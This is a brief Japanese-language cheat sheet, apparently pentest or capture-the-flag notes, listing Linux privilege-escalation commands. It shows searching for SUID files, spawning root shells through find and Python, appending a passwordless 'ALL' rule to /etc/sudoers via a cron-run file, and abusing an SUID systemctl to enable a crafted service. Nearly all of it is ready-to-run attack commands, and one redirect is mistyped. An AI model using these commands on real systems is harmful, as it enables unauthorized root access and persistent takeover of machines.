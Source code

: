 # Using Shell Command

## findで権限昇格

``` shell
    find / -type f -perm -u=s 2/dev/null

    find . -exec /bin/bash -p \; -quit
```

## pythonで権限昇格

``` shell
    python -c 'import os;os.system("/bin/sh -p")'
```

## sudoers

``` shell
    echo 'echo "vuln ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers' > <cronに使用されているファイル>
```

## systemctlで権限昇格

``` shell
    #install -mでモード指定
    sudo install -m =xs $(which systemctl) .
    #serviceの作成
    TF=$(mktemp).service
    echo '[Service]
    Type=oneshot
    ExecStart=/bin/sh -c "id > /tmp/output"
    [Install]
    WantedBy=multi-user.target' > $TF
    #リンクの生成
    ./systemctl link $TF
    #サービスの有効化
    ./systemctl enable --now $TF
```
